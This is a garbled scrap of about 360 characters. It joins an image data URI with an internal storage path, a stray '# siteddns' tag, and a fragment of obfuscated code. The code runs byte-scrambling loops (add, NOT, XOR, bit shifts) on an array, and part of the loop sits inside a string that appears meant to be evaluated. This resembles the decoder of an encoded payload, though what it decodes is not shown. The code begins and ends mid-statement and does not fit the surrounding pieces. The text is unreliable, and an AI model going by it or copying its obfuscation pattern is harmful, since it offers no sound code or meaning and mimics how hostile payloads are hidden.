  # siteddns
45)break;ur[wr]=(ur[wr]+51)&0xff;ur[wr]=((~ur[wr])&0xff)^135;wr++;}wr="wr=4;do{ur[wr]=(~(((ur[wr]>>7)|((ur[wr]
